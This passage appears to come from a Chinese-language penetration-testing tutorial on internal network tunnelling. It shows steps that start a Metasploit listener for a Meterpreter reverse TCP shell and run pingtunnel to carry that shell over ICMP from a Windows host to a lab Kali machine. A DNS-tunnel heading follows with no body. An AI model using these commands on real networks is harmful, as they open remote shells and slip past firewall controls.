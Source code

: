 5. MSF启动监听：

   ``` shell
   msfconsole
   
   use exploit/multi/handler
   
   set payload windows/meterpreter/reverse_tcp
   
   set lhost 0.0.0.0
   
   set lport 4444
   
   exploit 
   ```

6. Kali开启隧道：

   ``` shell
   ./pingtunnel -type server
   ```

7. Win开启隧道 //将本地3333 icmp数据转发至158的4444 tcp流量上

   ``` powershell
   pingtunnel.exe -type client -l 127.0.0.1:3333 -s 192.168.46.158 -t 192.168.46.158:4444 -tcp 1
   ```

## DNS隧道-防火墙-VPS&iodined&CS上线

![内网隧道建立DNS](img/NwSdJl2.png)
